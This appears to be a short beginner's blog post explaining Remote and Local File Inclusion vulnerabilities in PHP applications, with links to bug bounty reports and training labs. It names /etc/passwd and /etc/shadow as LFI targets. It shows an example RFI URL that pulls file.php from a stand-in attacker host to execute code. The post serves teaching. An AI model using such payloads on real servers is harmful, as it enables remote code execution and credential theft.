 # <center> RFI and LFI, how to find them and what’s the difference between them? </center>

Hello everyone! <br> Today I'm writing my first blog about two really similiar vulnerabilities.
File Inclusions are mostly found in PHP Applications, they are the result of using <code> include() </code> incorrectly 
(for the most cases). In addition they can be found in Node JS and Python Apps too. People sometimes can't make the difference 
between those two similiar vulnerabilities, that's okay because in today's blog I'll try to explain it on some easy examples.
<br>
Let's see now:
<br>
In the easiest way if we want to explain it, we'll say it like this <br>
When hacker is exploiting RFI he uses a Remote File while on the other side LFI uses local files when they are attacking server,
even the name of the vulnerability tells you that. While exploiting LFI you can get response from the local files on system, 
for example <code> /etc/passwd </code> or <code> /etc/shadow </code>.
<br>
<center> <img src="lfi-example.PNG"/> </center>
<br>
On the other hand while exploiting RFI you can upload file from remote server which in 99% of the times will result in 
RCE(Remote Code Execution). For example <code> https://www.site.com/app.php?file=http://attackers.website.com/file.php </code>.
You could execute malicious code from the <code> file.php </code> file and use it for evil intention. <br>
<br>
LFI is way more popular than RFI because nowadays it is way easier to protect against including Remote Malicious Files, but
you never know 🙂. <br>
<br>
File Inclusion Vulnerabilities are ranked critical since they can cause server-side injections and in most cases you can get RCE.

# > Some File Inlusion Reports:
<a href="https://hackerone.com/reports/59665"> Local File Inclusion Vulnerability in Concrete5 version 5.7.3.1 </a> <br> <br>
<a href="https://hackerone.com/reports/895972"> Limited LFI </a> <br> <br>
<a href="https://bugreader.com/updatelap@local-file-inclusion-in-peeringgooglecom-70"> Local File Inclusion in peering.google.com </a> <br> <br>

# > Some More Content About File Inclusions
<a href="https://book.hacktricks.xyz/pentesting-web/file-inclusion"> HackTricks </a> <br> <br>
<a href="https://tryhackme.com/room/inclusion"> TryHackMe </a> <br> <br>
<a href="https://dvwa.co.uk/"> DVWA </a> <br> <br>

That was it for this blog, I hope you enjoyed it and would like you to follow my <a href="https://twitter.com/ArikSyer">Twitter</a>
 so you get notified when I post another blog. Oh yeah I almost forgot, don't forget to join a <a href="discord.gg/bugbounty">Discord Bug Bounty</a> server with great community there, you can ask
 for help there if you need it.

